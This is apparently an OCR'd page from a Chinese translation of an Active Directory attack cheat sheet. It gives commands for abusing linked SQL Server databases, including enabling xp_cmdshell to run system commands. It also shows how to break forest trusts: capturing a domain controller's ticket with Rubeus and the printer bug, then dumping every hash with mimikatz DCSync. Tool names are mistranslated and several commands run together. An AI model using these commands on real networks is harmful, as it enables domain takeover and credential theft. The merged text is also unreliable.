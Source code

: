 ```
Get-SQLConnectionTestThreaded
Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded -Verbose
```

*   收集关于实例的信息:`Get-SQLInstanceDomain | Get-SQLServerInfo -Verbose`
*   滥用 SQL 数据库链接:
    *WUT 是 DIS？:数据库链接允许 SQL Server 像访问其他 SQL Server 一样访问其他资源。如果我们有两个链接的 SQL 服务器，我们可以在其中执行存储过程。数据库链接也适用于森林信任！*

检查现有的数据库链接:

```
#Check for existing Database Links:
#PowerUpSQL:
Get-SQLServerLink -Instace <SPN> -Verbose

#MSSQL Query:
select * from master..sysservers
```

然后，我们可以使用查询来枚举链接数据库中的其他链接:

```
#Manualy:
select * from openquery("LinkedDatabase", 'select * from master..sysservers')

#PowerUpSQL (Will Enum every link across Forests and Child Domain of the Forests):
Get-SQLServerLinkCrawl -Instance <SPN> -Verbose

#Then we can execute command on the machine's were the SQL Service runs using xp_cmdshell
#Or if it is disabled enable it:
EXECUTE('sp_configure "xp_cmdshell",1;reconfigure;') AT "SPN"
```

查询执行:

```
Get-SQLServerLinkCrawl -Instace <SPN> -Query "exec master..xp_cmdshell 'whoami'"
```

# 打破森林信任

*WUT 是 DIS？:
TL；
如果我们与一个外部森林有双向信任，并且我们设法危及本地森林上一台启用了无约束委派的机器(DC 默认有这个功能)，我们可以使用 printerbug 强制外部森林根域的 DC 向我们认证。然后，我们可以捕获它的 TGT，将其注入内存，并通过 DCsync 转储它的哈希值，这样我们就可以完全访问整个森林。*

我们将使用的工具:

*   [风疹](https://github.com/GhostPack/Rubeus)
*   [SpoolSample](https://github.com/leechristensen/SpoolSample)
*   [米米卡兹](https://github.com/gentilkiwi/mimikatz)

利用示例:

```
#Start monitoring for TGTs with rubeus:
Rubeus.exe monitor /interval:5 /filteruser:target-dc$#Execute the printerbug to trigger the force authentication of the target DC to our machine
SpoolSample.exe target-dc$.external.forest.local dc.compromised.domain.local#Get the base64 captured TGT from Rubeus and inject it into memory:
Rubeus.exe ptt /ticket:<Base64ValueofCapturedTicket>#Dump the hashes of the target domain using mimikatz:
lsadump::dcsync /domain:external.forest.local /all
```